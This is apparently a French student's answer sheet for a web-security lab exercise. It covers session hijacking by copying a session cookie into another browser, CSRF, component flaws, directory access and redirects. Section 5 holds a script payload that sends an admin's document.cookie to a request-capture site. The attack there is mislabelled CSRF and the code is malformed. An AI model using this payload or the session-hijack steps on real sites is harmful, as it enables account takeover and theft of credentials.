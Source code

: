      1. Besoin de garder deux comptes en ligne en même temps

      2. Utiliser la fenêtre de navigateur privé

      3. Copiez l'ID de session dans le cookie de l'utilisateur A, puis utilisez l’inspecte de Chrome pour modifier le cookie sur la page d'accueil de l'utilisateur B, puis mettez-le à jour.

         <img src="https://i.imgur.com/h6DUjEp.png" alt="Imgur" style="zoom: 50%;" />

   * [ ]  Observez ce qui se passe si des actions sont réalisées dans les deux navigateurs en parallèle. Qu’en déduisez-vous ?

      ça veut dire quoi?

#### 5. **Falsification de requête (CSRF)**

   * [x] Donnez une fonctionnalité du site susceptible d’être la cible d’une attaque CSRF

     Les victimes peuvent être des administrateurs de site web.Le pirate peut voler le mot de passe de l’admin en envoyant du code malveillant dans la formulaire de message. Une fois que l'administrateur se connecte pour regarder le message, son cookie va être automatiquement transféré vers le pirate.

   * [x] Proposez un moyen par lequel réaliser une telle attaque

     http://requestbin.net/ —— un site web pour récupérer la réponse lorsque l'admin se connecte.

     ```javascript
     <script>document.write("<img src=url.concat(document.cookie).concat("/>"))</script>
     ```

#### 6. **Vulnérabilité d'un composant**

   Notre site présente-t-il des vulnérabilités particulières au niveau de ses composants (serveur web, SGBD, etc....) ?

Il doit utiliser quelque outils qui permet d'analyser

phpmyadmin en production est fortement déconseillé, car c'est un outils trop puissant qui peux vite mal tourner s'il tombe entre de mauvaise main.

#### 7. **Chiffrement des données sensibles**

   Quelles sont les vulnérabilités de notre site en relation avec le chiffrement des données sensibles ?

#### 8. **Accès aux répertoires par http**

   Donnez un exemple de problème que peut causer la possibilité d’accès aux répertoires par http dans le cas de notre exemple sr03p20.

​	Le propriétaire du dossier n'est pas www-data

![Imgur](https://i.imgur.com/3P8OLmW.png)

#### 9. **Scripts de redirection**

   1. Inspectez le code de notre site pour repérer les éventuelles instructions de redirection non contrôlées.

